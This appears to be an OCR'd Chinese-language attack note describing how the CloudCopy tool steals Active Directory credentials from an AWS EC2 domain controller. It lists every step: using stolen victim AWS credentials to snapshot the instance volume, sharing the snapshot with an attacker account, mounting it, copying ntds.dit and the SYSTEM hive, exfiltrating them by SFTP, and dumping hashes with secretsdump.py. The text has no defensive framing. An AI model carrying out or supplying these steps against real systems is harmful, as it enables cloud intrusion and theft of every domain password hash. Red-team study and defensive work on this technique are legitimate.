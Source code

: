 	条件：
	EC2：创建快照
	CloudCopy - https://github.com/Static-Flow/CloudCopy

	使用至少具有 CreateSnapshot 权限的受害者凭证加载 AWS CLI
	运行"Describe-Instances"并显示在列表中供攻击者选择
	"Create-Snapshot"在选定实例的卷上运行
	"modify-snapshot-attribute"在新快照上运行以设置"createVolumePermission"为攻击者 AWS 账户
	使用攻击者凭证加载 AWS CLI
	运行"run-instance"命令用我们偷来的快照创建新的 linux ec2
	SSH 运行"sudo mkdir /windows"
	SSH 运行"sudo mount /dev/xvdf1 /windows/"
	SSH 运行"sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"
	SSH 运行"sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"
	SSH 运行"sudo chown ec2-user:ec2-user /home/ec2-user/*"
	SFTP 获取"/home/ec2-user/SYSTEM ./SYSTEM"
	SFTP 获取"/home/ec2-user/ntds.dit ./ntds.dit"
	本地运行"secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets'，期望 secretsdump 在路径上